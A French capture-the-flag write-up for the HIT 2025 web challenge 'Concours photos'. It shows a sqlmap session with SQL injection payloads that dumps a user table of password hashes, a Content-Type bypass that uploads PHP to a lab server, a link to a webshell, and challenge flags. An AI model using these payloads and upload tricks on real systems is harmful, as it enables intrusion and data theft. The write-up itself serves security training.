



# Web : Concours photos 1/4 et Concours photos 2/4
**Challenge Author(s)**: SevenInside
**Difficulty**: Moyen puis Difficile

## Synopsis

Ce site de concours de photos du radôme semble exposer des vulnérabilités. L'objectif final est de prendre complètement le contrôle de la machine hôte.

## Steps to solve

L'exploration du site nous permet de voir plusieurs fonctionnalités :

- Inscription sur le site web
- Connexion
- Upload d'une image

En continuant l'exploration, on peut remarquer que la phase de connexion présente une page de log lors de l'envoi du formulaire. En effet, furtivement, et de manière plus flagrante lorsque l'on désactive Javascript, un message de Debug apparait et affiche une partie de la base de données.

```text
Debug:array(8) { [0]=> int(3) ["id"]=> int(3) [1]=> string(4) "test" ["username"]=> string(4) "test" [2]=> string(12) "test@test.fr" ["email"]=> string(12) "test@test.fr" [3]=> string(60) "$2y$10$o.TbcBTnbE6fMPVRcQ5VSe3KxjvbGlwu2ek/9piIDheNJ/OKuFdum" ["password"]=> string(60) "$2y$10$o.TbcBTnbE6fMPVRcQ5VSe3KxjvbGlwu2ek/9piIDheNJ/OKuFdum" }
```

Il semblerait que l'on soit en face d'une injection SQL. Pour confirmer cette observation, on sort directement SQLMap.

 ```bash
 hit2025@pentest:~$ sqlmap -u http://10.11.20.6/connexion.php --data="email=test@test.fr&password=test" --dump-all
        ___
       __H__
___ ___[.]_____ ___ ___  {1.8.4#stable}
|_ -| . [)]     | .'| . |
|___|_  [']_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 09:57:34 /2025-11-13/

[09:57:34] [INFO] testing connection to the target URL
you have not declared cookie(s), while server wants to set its own ('PHPSESSID=c8v4rcqpq3i...ii6is717eo'). Do you want to use those [Y/n] 

[09:57:36] [INFO] checking if the target is protected by some kind of WAF/IPS
[09:57:36] [INFO] testing if the target URL content is stable
[09:57:36] [INFO] target URL content is stable
[09:57:36] [INFO] testing if POST parameter 'email' is dynamic
[09:57:36] [INFO] POST parameter 'email' appears to be dynamic
[09:57:36] [WARNING] heuristic (basic) test shows that POST parameter 'email' might not be injectable
[09:57:36] [INFO] testing for SQL injection on POST parameter 'email'
[09:57:36] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[09:57:36] [INFO] POST parameter 'email' appears to be 'AND boolean-based blind - WHERE or HAVING clause' injectable 
[09:57:37] [INFO] heuristic (extended) test shows that the back-end DBMS could be 'SQLite' 
it looks like the back-end DBMS is 'SQLite'. Do you want to skip test payloads specific for other DBMSes? [Y/n] 

for the remaining tests, do you want to include all tests for 'SQLite' extending provided level (1) and risk (1) values? [Y/n] 

[09:57:39] [INFO] testing 'Generic inline queries'
[09:57:39] [INFO] testing 'SQLite inline queries'
[09:57:39] [INFO] testing 'SQLite > 2.0 stacked queries (heavy query - comment)'
[09:57:39] [INFO] testing 'SQLite > 2.0 stacked queries (heavy query)'
[09:57:39] [INFO] testing 'SQLite > 2.0 AND time-based blind (heavy query)'
[09:57:49] [INFO] POST parameter 'email' appears to be 'SQLite > 2.0 AND time-based blind (heavy query)' injectable 
[09:57:49] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
[09:57:49] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
[09:57:50] [INFO] 'ORDER BY' technique appears to be usable. This should reduce the time needed to find the right number of query columns. Automatically extending the range for current UNION query injection technique test
[09:57:50] [INFO] target URL appears to have 4 columns in query
[09:57:50] [INFO] POST parameter 'email' is 'Generic UNION query (NULL) - 1 to 20 columns' injectable
POST parameter 'email' is vulnerable. Do you want to keep testing the others (if any)? [y/N] 

sqlmap identified the following injection point(s) with a total of 57 HTTP(s) requests:
---
Parameter: email (POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: email=test@test.fr' AND 4338=4338 AND 'GwYU'='GwYU&password=test

    Type: time-based blind
    Title: SQLite > 2.0 AND time-based blind (heavy query)
    Payload: email=test@test.fr' AND 1075=LIKE(CHAR(65,66,67,68,69,70,71),UPPER(HEX(RANDOMBLOB(500000000/2)))) AND 'tYHK'='tYHK&password=test

    Type: UNION query
    Title: Generic UNION query (NULL) - 4 columns
    Payload: email=-1083' UNION ALL SELECT NULL,CHAR(113,112,107,106,113)||CHAR(110,71,120,98,74,86,117,109,119,85,98,113,121,104,111,86,116,65,122,73,78,66,100,108,122,78,102,98,72,107,80,70,83,81,82,99,105,116,79,75)||CHAR(113,118,122,112,113),NULL,NULL-- FGCH&password=test
---
[09:57:52] [INFO] the back-end DBMS is SQLite
web server operating system: Linux Ubuntu
web application technology: Apache 2.4.58, PHP
back-end DBMS: SQLite
[09:57:52] [INFO] sqlmap will dump entries of all tables from all databases now
[09:57:52] [INFO] fetching tables for database: 'SQLite_masterdb'
[09:57:52] [INFO] fetching columns for table 'photos' 
[09:57:52] [INFO] fetching entries for table 'photos'
Database: <current>
Table: photos
[2 entries]
+----+------+---------------------------+
| id | user | filename                  |
+----+------+---------------------------+
| 2  | 2    | uploads/68f9e617e2e9b.jpg |
| 3  | 3    | uploads/691597d208226.jpg |
+----+------+---------------------------+

[09:57:52] [INFO] table 'SQLite_masterdb.photos' dumped to CSV file '/home/hit2025/.local/share/sqlmap/output/10.11.20.6/dump/SQLite_masterdb/photos.csv'
[09:57:52] [INFO] fetching columns for table 'sqlite_sequence' 
[09:57:52] [INFO] fetching entries for table 'sqlite_sequence'
Database: <current>
Table: sqlite_sequence
[2 entries]
+-----+--------+
| seq | name   |
+-----+--------+
| 3   | users  |
| 3   | photos |
+-----+--------+

[09:57:52] [INFO] table 'SQLite_masterdb.sqlite_sequence' dumped to CSV file '/home/hit2025/.local/share/sqlmap/output/10.11.20.6/dump/SQLite_masterdb/sqlite_sequence.csv'
[09:57:52] [INFO] fetching columns for table 'users' 
[09:57:52] [INFO] fetching entries for table 'users'
Database: <current>
Table: users
[3 entries]
+----+--------------+--------------------------------------------------------------+----------+
| id | email        | password                                                     | username |
+----+--------------+--------------------------------------------------------------+----------+
| 0  | NOT NEEDED   | hit{SQLiteEnPLS:/}                                           | FLAG     |
| 2  | anto@anto.fr | $2y$10$eZ0tsRMlu5/YDU2LwCI1NO3Xh9M9zBQmt2mr81b0p82fwWM3Gt2Sa | anto     |
| 3  | test@test.fr | $2y$10$o.TbcBTnbE6fMPVRcQ5VSe3KxjvbGlwu2ek/9piIDheNJ/OKuFdum | test     |
+----+--------------+--------------------------------------------------------------+----------+

[09:57:52] [INFO] table 'SQLite_masterdb.users' dumped to CSV file '/home/hit2025/.local/share/sqlmap/output/10.11.20.6/dump/SQLite_masterdb/users.csv'
[09:57:52] [INFO] fetched data logged to text files under '/home/hit2025/.local/share/sqlmap/output/10.11.20.6'
[09:57:52] [WARNING] your sqlmap version is outdated

[*] ending @ 09:57:52 /2025-11-13/
```

On récupère le premier flag : `hit{SQLiteEnPLS:/}`

On remarque aussi la présence d'une référence vers les fichiers uploadés : en mettant ce lien dans l'URL (<http://concours-photo-team-X.hit.local/uploads/691597d208226.jpg>) on accède au fichier uploadé. Reste maintenant à trouver un moyen pour uploader un fichier PHP afin de réaliser une RCE (Remote Code Execution).

Pour un premier test, faisons un fichier PHP tout simple (`hit.php`) :

```php
<?php

phpinfo();

?>
```



Cependant, l'envoi de ce type de fichier ne semble pas être accepté... Voyons, plus en détail le formulaire envoyé au serveur.

```text
------geckoformboundary6877a191411f25b9342a819a6acf0832
Content-Disposition: form-data; name="photo"; filename="hit.php"
Content-Type: application/x-php

<?php

phpinfo();

?>

------geckoformboundary6877a191411f25b9342a819a6acf0832--
 
```

Le serveur doit certainement vérifier soit l'extension du fichier, soit le `Content-Type` du fichier (ou bien les deux). Dans notre cas, testons en renvoyant le formulaire, mais en modifiant le `Content-Type` par `image/jpeg`.



Et là, Bingo, la *"photo"* semble avoir été acceptée ! Retournons dumper la base SQL pour récupérer l'adresse du fichier.

```bash
Table: photos
[2 entries]
+----+------+---------------------------+
| id | user | filename                  |
+----+------+---------------------------+
| 2  | 2    | uploads/68f9e617e2e9b.jpg |
| 4  | 3    | uploads/6915a26bbd74b.php |
+----+------+---------------------------+
```

Re-bingo ! On voit qu'un fichier PHP a bien été uploadé. En l'executant, on retrouve notre `phpinfo()`. Il ne reste plus qu'à faire la même chose mais avec une RCE cette fois-ci. Pour ce faire, on peut reposer sur plusieurs solutions :

- une session Meterpreter portée par l'outil Metasploit
- Netcat
- Webshell interactif, etc.

Pour des raisons de simplicité on peut choisir la solution accessible [à cette adresse](https://gist.github.com/mrpapercut/9e4f511e74fdf3796d0abcc4de182b65).



En parcourant le repertoire, on arrive à trouver le flag qui se trouvait dans un fichier non référencé.

Flag n°2 : `hit{MYReverseISWOrking!}`

Les deux derniers flags consistent à passer root sur le conteneur puis de s'extraire de ce dernier. Les solutions ne seront pas partagées car les dernières étapes du challenge n'ont pas été tentées durant HIT 2025 et seront très probablement rejouées.
